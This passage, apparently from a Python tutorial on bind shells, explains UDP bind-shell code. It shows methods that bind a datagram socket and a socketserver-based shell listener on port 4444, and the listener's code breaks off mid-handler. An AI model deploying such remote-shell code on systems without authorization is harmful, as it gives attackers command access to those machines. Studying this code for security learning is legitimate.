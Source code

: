 Notice how there is no listen() method enabling the server to accept connections and create client sockets to serve bind shells to? UDP is connectionless so all of these needs fall away. We associate to a local endpoint with bind() and then call _spawn_udp() upon the socket object enabling the serve flag for appropriate output.

```python
@infinite
def bind_shell_udp(self):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.bind(self.addr)

    host, port = sock.getsockname()
    print(f"Binding: {host}:{port}")
    
    self._spawn_udp(sock, serve=True)

    sock.close()
```

```python
@infinite
def bind_shell_udp_context(self):
    with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as sock:
        sock.bind(self.addr)

        host, port = sock.getsockname()
        print(f"Binding: {host}:{port}")
        
        self._spawn_udp(sock, serve=True)
```

# Bind Shell (UDP SocketServer)

The socketserver module also provides us a convienient way to handle UDP using [UDPServer(server_address, RequestHandlerClass, bind_and_activate=True)](https://docs.python.org/3/library/socketserver.html#socketserver.UDPServer)
> "This uses datagrams, which are discrete packets of information that may arrive out of order or be lost while in transit. The parameters are the same as for TCPServer."

Due to the unique needs of this example i've coded the complete example below instead of calling our _spawn_udp() method.

```python
from subprocess import Popen, PIPE, STDOUT
import socketserver
    
HOST, PORT = '', 4444

def bind_shell():
    with socketserver.UDPServer((HOST, PORT), bindHandlerUDP) as bshell:
        ip, port = bshell.server_address
        print(f"Binding to: {ip}:{port}")
        bshell.serve_forever()

class bindHandlerUDP(socketserver.BaseRequestHandler):
    """
    self.request consists of a pair of data and client socket. 
    sendto() is also used sinceand since UDP is connectionless.
    """

    def handle(self):
        ip, port = self.client_address

        data, sock = self.request
        data = str(data, 'ascii').rstrip()
        if not data: return
```